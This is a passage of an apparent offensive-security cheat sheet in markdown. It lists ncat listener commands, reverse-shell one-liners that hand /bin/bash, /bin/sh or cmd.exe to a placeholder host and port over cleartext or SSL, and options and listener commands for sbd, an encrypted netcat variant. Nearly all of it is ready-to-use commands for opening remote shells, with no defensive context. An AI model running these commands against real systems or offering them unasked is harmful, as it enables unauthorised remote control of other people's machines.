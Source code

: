 ### Listener (SSL/TLS)
```
ncat --ssl -nvlp [PORT]
```
```
ncat.exe --ssl -nvlp [PORT]
```

### *nix (cleartext)
```
ncat -nv -e /bin/bash [HOST] [PORT]
```
```
ncat -nv -e /bin/sh [HOST] [PORT]
```

### *nix (SSL/TLS)
```
ncat -nv --ssl -e /bin/bash [HOST] [PORT]
```
```
ncat -nv --ssl -e /bin/sh [HOST] [PORT]
```

### Windows (cleartext)
```
ncat.exe -nv -e cmd.exe [HOST] [PORT]
```

### Windows (SSL/TLS)
```
ncat.exe -nv --ssl -e cmd.exe [HOST] [PORT]
```


## sbd
sbd is a netcat variant that supports encrypted connections utilizing "AES-CBC-128 + HMAC-SHA1" encryption.

### Options
```
-n: numeric-only IP addresses
-v: verbose
-e [PROGRAM_NAME]: execute program after connecting
-l: listen for incoming connections
-p: port to listen on
```

### Listener
```
sbd -nvlp [PORT]
```
```
sbd.exe -nvlp [PORT]
```
